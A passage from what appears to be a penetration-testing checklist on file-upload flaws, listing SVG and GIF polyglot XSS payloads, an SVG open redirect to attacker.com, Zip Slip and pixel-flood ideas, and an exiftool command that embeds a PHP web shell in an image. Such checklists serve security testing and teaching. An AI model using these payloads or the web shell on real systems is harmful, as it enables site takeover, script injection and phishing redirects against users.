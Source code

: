             ```
            GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
            ```

            - Upload using `.svg` file

            ```xml
            <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
            ```

            ```xml
            <?xml version="1.0" standalone="no"?>
            <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

            <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
               <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
               <script type="text/javascript">
                  alert("HolyBugx XSS");
               </script>
            </svg>
            ```
            [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#xss-uploading-files-svg](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#xss-uploading-files-svg)<br></br>
            [https://brutelogic.com.br/blog/file-upload-xss/](https://brutelogic.com.br/blog/file-upload-xss/)<br></br>
        
        - [ ]  Open Redirect
            1. Upload using `.svg` file

            ```xml
            <code>
            <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
            <svg
            onload="window.location='https://attacker.com'"
            xmlns="http://www.w3.org/2000/svg">
            <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
            </svg>
            </code>
            ```
        - - - -
    - # Misc
        - [ ]  Uploading `file.js` & `file.config` (web.config)
        - [ ]  Pixel flood attack using image
        - [ ]  DoS with a large values name: `1234...99.png`
        - [ ]  Zip Slip
            - If a site accepts `.zip` file, upload `.php` and compress it into `.zip` and upload it. Now visit, `site.com/path?page=zip://path/file.zip%23rce.php`
        - [ ]  Image Shell
            - Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file `mv pic.jpg pic.php.jpg`

            ```php
            exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
            ```
        - - - -            
    - # My Full Scanario For Check Uploaders:

